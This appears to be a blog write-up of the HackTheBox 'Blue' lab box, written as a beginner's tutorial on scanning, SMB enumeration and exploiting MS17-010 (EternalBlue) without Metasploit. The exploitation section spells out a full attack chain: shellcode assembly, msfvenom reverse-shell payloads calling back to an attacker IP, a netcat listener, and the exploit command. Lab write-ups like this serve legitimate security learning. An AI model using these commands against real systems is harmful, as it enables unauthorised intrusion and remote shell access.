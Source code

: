 ```yaml
---
title: "HTB - Blue"
date: 2021-01-30T16:37:44+01:00
categories: ["hacking","write-ups"]
tags: [HTB]
featuredImage: "/images/2021/02/Blue.png"
---
```

A good ol' vuln to get starting!

This will be my first real tutorial, so I'll try to explain the basics of what I am doing. Please bear in mind that I am very new to haking, probably like you are. I am merely sharing my knowledge and by doing so I am making sure I inderstood what I did. Please correct me if you find anything wrong, or ask question if you need to! I'll be happy to engage a discussion.

NB : The following notes use $target_ip = IP of the target machine. This is more convenient when machine changes its IP.

A note about “sudo”. I am a firm believer in the “least privileges” methodology, like never use your admin account on AD domain for day to day use, and never use sudo if you don't need to. For example, search a package with “apt search X” and install it wish "sudo apt install X". However, in case of Kali and nmap, I noticed that in quite often requires root depending of the flag you use. Since, I am no expert (yet), I will l run nmap (and many other Kali tools) with sudo! I do not log in as root, but as a regular user I created but I almost always use “sudo”.

I will process simply by following the 5 stages of Ethical Hacking.

##  Recon

Doing HTB boxes, there will be no proper reconnaissance phase; since Googling for the box will obviously leave to solution which we do not want... Let's just say we can use the name to have a guess. Here, a Windows machine called Blue probably means we'll have to deal with MS17-010.. So I'll pay close attention to anything related to SMB.

##  Enum

Let's fire a quick nmap scan ;

```text
sudo nmap -T4 -p- $target_ip
```

![](/images/2021/01/2021-01-27_14-21.png)

This quick nmap command will scan for all TCP ports, then, once done we will gather more in depth results by adding -A flag on specified ports (the one that responded from the previous step).

```text
sudo nmap -T4 -A -p $target_ip
```

![](/images/2021/01/2021-01-27_14-22.png)

NB : here, I just ignored some high ports 49xxx/tcp because this is not a real life test and I know that what I am looking for is related to SMB (445/tcp).

In parallel, I like to launch a Nessus basic scan on ALL ports (thanks @tcm for the tips) :

![](/images/2021/01/2021-01-27_13-21.png)

Like we guessed, it seems we will have to play with MS17-010 vuln, let's check that with nmap dedicated script :

```text
sudo nmap --script smb-vuln-ms17-010 $target_ip
```

![](/images/2021/01/2021-01-27_14-35.png)

It is becoming more and clear that this machine is vulnerable to ms17-10.

Since saw some SMB running; let's enumerate it :

NB : note the quadruple "", this is because it normally has only 2 but need escaping each time, hence the 4.

```text
smbclient -L $target_ip
```



![](/images/2021/01/2021-01-27_14-42.png)

Since we found a few share let's try to connect to each one of them anonymously, for example with the share called "Share":

```text
smbclient $target_ipShare
```

![](/images/2021/01/2021-01-27_14-46.png)

Keep notes of what shares you have access to. You may differentiate where you have "listing" access and where you don't.

Now let's try to gain exploit this machine.

##  Gaining Access (exploitation)

My goal is to exploit without MetaSploit, if you don't know why, check this blog post.

Searching on the internet, I came around this GitHub that seems to be able to do the job: [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010).

According to the repo we need to install impacket and mysmb, I'll let you do that, then we can use checker.py to see if we find any named pipe (since it is a safe way to exploit this) :

cd into the clone repo then run :

```text
python2 checker.py $target_ip
```

![](/images/2021/01/2021-01-27_14-54.png)

Unfortunately, we have no named pipes available... However, according to the repo :

> **Eternalblue** requires only access to IPC$ to exploit a target while other exploits require access to named pipe too. So the exploit always works against Windows &lt; 8 in all configuration (if tcp port 445 is accessible). However, Eternalblue has a chance to crash a target higher than other exploits.
>
> **Eternalchampion** requires access to named pipe. The exploit has no chance to crash a target.
>
> **Eternalromance** requires access to named pipe. The exploit can target Windows &lt; 8 because the bug for info leak is fixed in Windows 8. The exploit should have a chance to crash a target lower than Eternalblue. I never test a reliable of the exploit.
>
> **Eternalsynergy** requires access to named pipe. I believe this exploit is modified from Eternalromance to target Windows 8 and later. Eternalsynergy uses another bug for info leak and does some trick to find executable memory (I do not know how it works because I read only output log and pcap file).

Remember or recon phase and that Blue machine name? Looks like we are facing EternalBlue : we have seen that we have access to $IPC Share, Windows &lt; 8 (Windows 7 here), and port 445/tcp is open.

In order to exploit this we need to use the following (still according to the repo) :

```text
eternalblue_exploit7.py <ip> <shellcode_file> [numGroomConn]
```

The repo tells us that there is 2 shellcode, one for each arch.

However, we are not really sure which arch is our target. So we will assemble both shellcode :

cd into the shellcode dir and :

```text
nasm -f bin eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
```

Once this is done, we create our payloads like so :

```text
msfvenom -p windows/shell_reverse_tcp LHOST=$attacker_ip LPORT=4444 -f raw -o sc_x86_msf.bin EXITFUNC=thread msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attacker_ip LPORT=4444 -a x64 -f raw -o sc_x64_msf.bin EXITFUNC=thread
```

Finally we "join" the two payloads together (with the provided python script from the repo) so that we can check both arch at the same time and hopefully get a shell :

```text
cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin python2 eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
```

[Many thanks to this website for the info on how to assemble the shellcode](https://redteamzone.com/EternalBlue/).

Now start a listener to receive the reverse shell on port 4444 (or the one you used with he msfvenom command):

```text
nc -lvp 4444
```

Let it open and finally, we run our command with the generated sc_all.bin as payload :

```text
python2 eternalblue_exploit7.py $target_ip ./shellcode/sc_all.bin
```

![](/images/2021/01/2021-01-27_15-45_1.png)

Bingo, we have a shell!

![](/images/2021/01/2021-01-27_15-48.png)

Here, in a normal pentest situation, we would make sure to have a way to maintain access. But this is HackTheBox, we will simply harvest our flags. :)

##  Maintaining Access

Not used here. :)

##  Covering Tracks

Not used here. :)